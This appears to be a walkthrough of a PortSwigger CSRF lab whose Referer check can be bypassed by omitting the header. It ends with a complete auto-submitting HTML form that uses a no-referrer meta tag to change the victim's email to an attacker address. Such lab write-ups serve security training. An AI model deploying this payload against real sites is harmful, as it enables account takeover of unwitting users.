





# Lab: CSRF where `Referer` validation depends on header being present

> Lab Objective: use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.

- Login using provided credentials `wiener:peter`, then inspect login's response and request.
  

- You'll notice that the website explicitly restrict SameSite to None `SameSite=None`.

- Try Change Email functionality, you'll notice that the website only checks on the `Referer` request header to validate the request.

  - Normal Change Email Request:
    
  - When changing the `Referer` request header to `https://hacker.com`:
    

- But when removing the whole `Referer` request header, the request is accepted and processed as if the request header is present.
  

- In order to not include the `Referer` request header in your change email payload, add this line of html to your exploit code: `<meta name="referrer" content="never">`

- The Payload:

```html
<html5>
    <head>
        <meta name="referrer" content="never">
    </head>
  <body>
    <form action="https://0a370099037a6adf806f5d1c00390028.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="attacker@gmail.com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

- Finally, the lab is solved successfully.
  
